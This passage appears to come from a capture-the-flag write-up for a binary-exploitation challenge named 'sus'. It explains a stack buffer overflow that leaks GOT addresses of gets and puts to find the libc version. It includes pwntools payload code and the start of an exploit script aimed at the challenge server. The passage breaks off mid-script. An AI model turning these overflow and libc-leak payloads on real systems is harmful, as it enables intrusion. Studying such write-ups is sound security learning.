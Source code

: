 So when we call the PLT address of puts(), its the same as directly calling the function puts(). And when we give the GOT address of any function (e.g. gets) as argument, it will call puts() on the address of the argument.

In my script, I will leak the GOT address of gets(). Now the problem is, how do we pass the GOT address of gets() as an argument without pop_rdi gadget in the binary? Thats where the sus() function comes in. The sus() function takes the variable u as an argument (it would pop the value of u into rdi in assembly). Since we also have an overflow, we can modify the content of u and control what is popped into the rdi.

{% highlight python %}
payload = b"A" * 56
payload += p64(getsGot) * 2         # overwrite u with the GOT address of gets
payload += p64(putsPlt)             # call puts()
payload += p64(mainSym)             # return back to main to trigger BOF again

p.sendlineafter(b"sus?\n", payload)
leak = p.recvline().strip().ljust(8, b"\x00")
leak = u64(leak)
log.info(f"Gets leak : {hex(leak)}")

payload = b"A" * 56
payload += p64(putsGot) * 2      # overwrite u with the GOT address of puts
payload += p64(putsPlt)          # call puts()
payload += p64(mainSym)          # return back to main to trigger BOF again

p.sendlineafter(b"sus?\n", payload)
leak = p.recvline().strip().ljust(8, b"\x00")
leak = u64(leak)
log.info(f"Puts leak : {hex(leak)}")
{% endhighlight %}

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/2e405863-ea53-4fe8-9be5-604b118dec21)

Now that we have leaked the address of a function in libc, its time to find the version of libc that is running on the server using this [tool](https://libc.blukat.me/?q=gets%3A090%2Cputs%3A980)

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/8e31443d-861c-4716-9a19-5bb5b3696c7e)

Download any of the libc versions to test. Now that we have the correct version, we can calculate the base of libc by attaching gdb to it and run "vmmap" to see the base of libc. With that, we have all the information we need to trigger a ret2system.

### Exploit Script

{% highlight python %}
#!/usr/bin/python
from pwn import *
import warnings

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./sus_patched')
libc = ELF('./libc6_2.36-9+deb12u4_amd64.so')

host = "chall.lac.tf"
port = 31284

gdb_script = '''
b *main+70
c
'''

#p = exe.process()
p = remote(host,port)
#p = gdb.debug('./sus', gdbscript = gdb_script)

putsGot = exe.got["puts"]
getsGot = exe.got["gets"]